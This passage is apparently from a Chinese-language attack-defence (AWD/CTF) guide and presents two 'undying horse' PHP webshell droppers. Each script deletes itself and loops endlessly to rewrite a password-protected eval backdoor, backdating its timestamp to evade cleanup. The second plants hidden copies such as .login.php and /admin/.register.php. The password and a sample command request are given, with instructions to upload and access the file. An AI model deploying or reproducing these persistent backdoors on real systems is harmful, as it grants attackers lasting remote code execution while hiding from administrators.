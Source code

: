 进阶不死马：

```
&lt;?php
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = 'shell.php';
$code = '&lt;?php if(md5($_POST["passwd"])=="8c7d608cbb4c63f32be59a9ba8c9f49d"){@eval($_REQUEST["cmd"]);} ?&gt;';

while (1){
    file_put_contents($file,$code);
    system('touch -m -d "2020-12-01 09:10:12" shell.php');  //修改时间，防止被删
    usleep(5000);
}
?&gt;

//passwd=AabyssTeam
//POST传参：passwd=AabyssTeam&amp;cmd=system('ls');

```

将这个文件上传到服务器，然后进行访问，会在该路径下一直生成一个名字为 `shell.php` 的WebShell文件

双重不死马：

```
&lt;?php
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = '.login.php';
$file1 = '/admin/.register.php'; 
$code = '&lt;?php if(md5($_POST["passwd"])=="8c7d608cbb4c63f32be59a9ba8c9f49d"){@eval($_REQUEST["cmd"]);} ?&gt;';

while (1){
    file_put_contents($file,$code);
    system('touch -m -d "2020-12-01 18:10:12" .login.php');
    file_put_contents($file1,$code);
    system('touch -m -d "2020-12-01 18:10:12" /admin/.register.php');
    usleep(5000);
}
?&gt;

//passwd=AabyssTeam
//POST传参：passwd=AabyssTeam&amp;cmd=system('ls');

```

浏览器访问写入的WebShell，会自动生成两个不死马： `.login.php` 和 `/admin/.register.php`

##### 3.3.2 关键文件检索
